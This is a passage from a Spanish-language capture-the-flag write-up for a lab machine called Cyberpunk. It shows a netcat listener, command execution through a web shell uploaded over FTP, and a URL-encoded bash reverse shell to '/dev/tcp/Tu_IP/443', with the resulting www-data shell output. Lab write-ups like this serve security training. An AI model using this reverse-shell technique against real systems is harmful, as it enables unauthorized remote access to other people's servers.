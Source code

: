 Abre una **netcat**:
```bash
nc -nlvp 443
listening on [any] 443 ...
```

Y, vamos a visitar en la página web la **Reverse Shell** que cargamos en el **servicio FTP**.

Desde la URL, vamos a usar el parámetro **cmd** para poder ejecutar comandos.

Intentemos ejecutar el comando **whoami**:

<p align="center">
<img src="/assets/images/THL-writeup-cyberpunk/Captura5.png">
</p>

Funciona.

Ahora, vamos a utilizar nuestra **Reverse Shell**, pero **URL encodeada**:
```bash
bash -c 'bash -i >%26 /dev/tcp/Tu_IP/443 0>%261'
```

<p align="center">
<img src="/assets/images/THL-writeup-cyberpunk/Captura6.png">
</p>

Revisa la **netcat**:
```bash
nc -nlvp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.1.120] 46368
bash: cannot set terminal process group (487): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Cyberpunk:/var/www/html$
```
Listo, volvimos a entrar a la máquina.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>
